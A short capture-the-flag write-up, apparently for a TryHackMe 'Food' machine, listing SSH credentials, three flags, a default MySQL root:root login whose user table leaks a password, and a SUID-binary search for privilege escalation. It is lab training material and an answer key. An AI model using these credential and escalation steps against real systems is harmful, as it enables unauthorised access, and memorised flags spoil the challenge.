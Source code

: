 THM-Koth-Food -->

ssh credential:
pasta:pastaisdynamic 
ramen:noodlesRTheBest


Food-Flags:

Get flag1 under / home/bread
thm{7baf5aa8491a4b7b1c2d231a24aec575}


Pass the linpeas enumeration authorization information and find that mysql uses the default login password: root:root
/tmp$ mysql -u root -p

Get the login credentials of flag2 and ramen

mysql> select * from user;
ERROR 1146 (42S02): Table 'users.user' doesn't exist
mysql> select * from User;
+----------+---------------------------------------+
| username | password                              |
+----------+---------------------------------------+
| ramen    | noodlesRTheBest                       |
| flag     | thm{2f30841ff8d9646845295135adda8332} |
+----------+---------------------------------------+

flag2
thm{2f30841ff8d9646845295135adda8332}

Find the hidden file flag3 under / home/food

flag3
thm{58a3cb46855af54d0660b34fd20a04c1}


Raise authority to root
find all suid:
/tmp$ find / -perm -u=s -type f 2>/dev/null

--END--
